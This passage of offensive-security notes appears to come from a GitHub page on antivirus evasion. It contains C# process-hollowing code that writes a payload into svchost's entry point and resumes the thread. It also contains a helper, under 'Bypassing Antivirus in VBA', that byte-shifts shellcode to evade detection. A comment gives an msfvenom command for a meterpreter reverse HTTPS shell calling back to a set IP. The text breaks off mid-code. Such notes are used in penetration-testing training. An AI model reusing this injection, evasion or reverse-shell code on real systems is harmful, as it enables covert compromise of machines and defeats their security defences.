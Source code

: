 ```csharp

                        uint entrypoint_rva = BitConverter.ToUInt32(data, (int)opthdr);

                        IntPtr addressOfEntryPoint = (IntPtr)(entrypoint_rva + (UInt64)svchostBase);

                        WriteProcessMemory(hProcess, addressOfEntryPoint, buf, buf.Length, out nRead);

                        ResumeThread(pi.hThread);
                    }
                    else
                    {
                        Console.WriteLine("The file does not contain a valid byte array declaration.");
                    }
                }
            }
            catch (Exception ex)
            {
                Console.WriteLine($"Error reading file: {ex.Message}");
            }
        }
    }
}
```

## Bypassing Antivirus in VBA

### Encrypt the shellcode

```csharp
using System;
using System.Text;

namespace Helper
{
    class Program
    {
        static void Main(string[] args)
        {
            // msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.45.179 LPORT=443 EXITFUNC=thread -f csharp 
            byte[] buf = new byte[695] { };

            byte[] encoded = new byte[buf.Length];

            for (int i = 0; i < buf.Length; i++)
            {
                encoded[i] = (byte)(((uint)buf[i] + 2) & 0xFF);
            }

            uint counter = 0;

            StringBuilder hex = new StringBuilder(encoded.Length * 2);
            foreach (byte b in encoded)
            {
                hex.AppendFormat("{0:D}, ", b);
                counter++;
                if (counter % 50 == 0)
                {
                    hex.AppendFormat("_{0}", Environment.NewLine);
                }
```